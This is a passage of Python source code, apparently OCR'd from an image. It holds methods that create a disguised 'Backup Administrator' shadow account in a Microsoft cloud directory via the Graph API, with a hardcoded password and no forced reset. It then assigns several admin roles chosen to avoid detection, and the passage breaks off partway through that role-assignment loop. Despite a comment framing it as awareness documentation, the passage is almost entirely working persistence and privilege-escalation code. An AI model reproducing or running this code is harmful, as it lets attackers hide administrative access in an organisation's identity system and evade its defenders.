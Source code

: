 ```python
        """Create shadow admin account via directory sync manipulation"""
        # This would typically require on-premises access
        # Documenting the technique for awareness

        shadow_user_attributes = {
            "userPrincipalName": "backup-admin@company.com",
            "displayName": "Backup Administrator",
            "givenName": "Backup",
            "surname": "Administrator",
            "jobTitle": "System Administrator",
            "department": "IT Operations",
            "accountEnabled": True,
            "passwordProfile": {
                "forceChangePasswordNextSignIn": False,
                "password": "ComplexPassword123!"
            },
            # On-premises attributes that would sync
            "extensionAttribute1": "shadow-admin-marker",
            "extensionAttribute2": str(datetime.utcnow().timestamp())
        }

        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # This would normally be created on-premises and synced
        # But documenting the cloud-side result
        create_url = f"{self.graph_url}/users"
        response = requests.post(create_url, headers=headers, json=shadow_user_attributes)

        if response.status_code == 201:
            user_id = response.json()['id']
            print(f"Shadow admin created: {user_id}")

            # Assign roles after creation
            self.assign_hidden_privileges(user_id)

            return user_id
        else:
            print(f"Shadow admin creation failed: {response.text}")
            return None

    def assign_hidden_privileges(self, user_id):
        """Assign privileges in a way that's difficult to detect"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Instead of Global Admin, use multiple specific roles
        stealth_roles = [
            "729827e3-9c14-49f7-bb1b-9608f156bbb8",  # Helpdesk Administrator
            "f28a1f50-f6e7-4571-818b-6a12f2af6b6c",  # SharePoint Administrator
            "fe930be7-5e62-47db-91af-98c3a49a38b1",  # User Administrator
        ]

        for role_id in stealth_roles:
            role_assignment = {
                "@odata.type": "microsoft.graph.unifiedRoleAssignment",
                "roleDefinitionId": role_id,
                "principalId": user_id,
                "directoryScopeId": "/"
```